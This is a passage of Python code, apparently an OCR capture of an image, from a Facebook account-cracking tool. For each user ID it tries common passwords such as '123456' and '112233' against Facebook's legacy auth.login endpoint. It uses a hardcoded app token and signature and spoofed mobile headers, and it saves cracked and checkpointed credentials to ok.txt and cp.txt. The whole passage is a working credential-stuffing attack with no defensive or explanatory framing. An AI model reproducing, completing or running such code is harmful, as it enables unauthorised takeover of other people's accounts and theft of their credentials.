 											print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("cp.txt", "a")
											cp.write(uid+"|"+pass4+"\n")
											cp.close()
											cps.append(uid+pass4)
										else:
											pass5 = "123456"
											api = 'https://b-api.facebook.com/method/auth.login'
											params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass5, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
											headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
											data = requests.get(api, params=params, headers=headers_)
											if "access_token" in data.text and "EAAA" in data.text:
												print(" \033[1;32m[Ibrahim>OK] "+uid+" | "+pass5+"\033[0;97m")
												ok = open("ok.txt", "a")
												ok.write(uid+"|"+pass5+"\n")
												ok.close()
												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in data.json()['error_msg']:
													print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass5+"\033[0;97m")
													cp = open("cp.txt", "a")
													cp.write(uid+"|"+pass5+"\n")
													cp.close()
													cps.append(uid+pass5)
												else:
													pass6 = "112233"
													api = 'https://b-api.facebook.com/method/auth.login'
													params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass6, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
													headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
													data = requests.get(api, params=params, headers=headers_)
													if "access_token" in data.text and "EAAA" in data.text:
														print(" \033[1;32m[Ibrahim-OK] "+uid+" | "+pass6+"\033[0;97m")
														ok = open("ok.txt", "a")
														ok.write(uid+"|"+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in data.json()['error_msg']:
															print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass6+"\033[0;97m")
															cp = open("cp.txt", "a")
															cp.write(uid+"|"+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															pass7 = "123356789"
															api = 'https://b-api.facebook.com/method/auth.login'
															params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass7, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
															headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
															data = requests.get(api, params=params, headers=headers_)
